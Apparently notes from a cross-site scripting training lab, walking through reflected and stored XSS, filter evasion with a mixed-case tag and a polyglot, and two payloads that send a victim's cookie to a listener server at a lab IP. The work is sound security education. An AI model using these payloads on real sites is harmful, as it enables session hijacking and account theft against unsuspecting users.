---
---

# IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills

- Make two users and log in with one of them





```java
<script>window.alert(1)</script>
```



- This is the Reflected XSS

- For the Stored XSS:





<script>window.alert("hey")</script>

- The same command gets used but this time it gets sent and stored until the victim opens the message










- This one we need to steal a users token, that we don’t have access to

- Set up Python server

- And send the following to jerry as a message:
```java
<script>document.location="http://10.102.164.154:8080/?cookie="+document.cookie;</script>
```
- Or try:
```java
<script>fetch("http://10.8.31.73:8000/"+document.cookie)</script>
```








- Some filter evasion is being used




- Login with the user:
```js
<Script>alert(1)</Script>
```







- Filter evasion




- Using a polyglot to get past the filter (bit of a cheating way, instead of using trial and error)
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("XSS") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```










